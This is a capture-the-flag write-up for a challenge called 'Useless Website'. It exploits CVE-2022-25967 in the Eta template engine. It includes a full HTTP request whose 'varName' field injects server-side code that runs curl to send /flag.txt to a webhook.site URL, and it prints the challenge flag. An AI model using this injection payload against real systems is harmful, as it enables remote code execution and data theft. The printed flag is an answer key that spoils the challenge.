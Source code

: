 # Useless Website
## Step by Step Solve
---
1. Download the source code of the website
2. We can see theres something in the package.json file
   - ![image](https://github.com/user-attachments/assets/ded38f60-d45c-406f-87ca-353241b395e5)
3. Searching on the internet ```CVE-2022-25967``` showing that there is some leakage can be use on the eta framework.
4. In burpsuite, intercept the web and change to this
``` POST /utils/settings HTTP/1.1
    Host: 5.75.155.50:1341
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate, br
    Connection: keep-alive
    Content-Type: application/json
    Upgrade-Insecure-Requests: 1
    If-None-Match: W/"1057-ih1IUXlwncna8aHynJLYIHjiX30"
    Priority: u=0, i
    Content-Length: 292
    
    {
      "settings": {
        "view options": {
          "varName": "x=process.mainModule.require('child_process').execSync('curl https://webhook.site/self id/$(cat /flag.txt)')",
          "include": false,
          "includeFile": false,
          "useWith": true
        }
      }
    }
```

5. And we can find out the flag at the end of the webhook link.
   - ![image](https://github.com/user-attachments/assets/ee3ce174-09de-43c1-82ea-43f979aa075d)
   - ```CSLU{wh4ts_y0ur_et4?}```

### Acknowledgement
Thx for Megat for the solution.
